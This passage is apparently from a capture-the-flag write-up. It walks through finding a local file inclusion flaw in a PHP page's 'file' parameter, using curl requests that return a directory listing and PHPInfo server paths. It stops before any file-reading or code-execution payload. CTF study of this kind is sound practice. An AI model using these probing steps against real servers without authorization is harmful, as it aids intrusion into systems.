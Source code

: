 This is a simple website with two main links. They both link to unimportant pages. The important thing is how they do it:

```html
<a href="test.php?file=gallery.html">Gallery</a>
<a href="test.php?file=register.html">Registration</a>
```

There's a good chance that `test.php` has a local file inclusion (LFI) vulnerability!

Let's test this:

```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=index.html"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /pages/</title>
</head>
<body>
<h1>Directory listing for /pages/</h1>
<hr>
<ul>
<li><a href="pics.php">pics.php</a></li>
<li><a href="registration">registration</a></li>
<li><a href="shimi">shimi</a></li>
</ul>
<hr>
</body>
</html>
```

### Exploiting LFI

We got a directory listing for `/pages/`. We can go on and try to explore the directory tree, but there's an additional fact that will be very helpful for us: If we call `test.php` without any parameters, we get the `PHPInfo` output:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl -s "http://13.67.133.176/test.php" | egrep "DOCUMENT_ROOT|SCRIPT_FILENAME|SERVER_NAME|SERVER_ADDR|APACHE_LOG_DIR "
<tr><td class="e">SERVER_NAME </td><td class="v">13.67.133.176 </td></tr>
<tr><td class="e">SERVER_ADDR </td><td class="v">10.0.0.7 </td></tr>
<tr><td class="e">DOCUMENT_ROOT </td><td class="v">/var/www/html </td></tr>
<tr><td class="e">CONTEXT_DOCUMENT_ROOT </td><td class="v">/var/www/html </td></tr>
<tr><td class="e">SCRIPT_FILENAME </td><td class="v">/var/www/html/test.php </td></tr>
<tr><td class="e">APACHE_LOG_DIR </td><td class="v">/var/log/apache2 </td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v">13.67.133.176</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">10.0.0.7</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['CONTEXT_DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/test.php</td></tr>
```

So we know where the server is running from, and several other important variables.
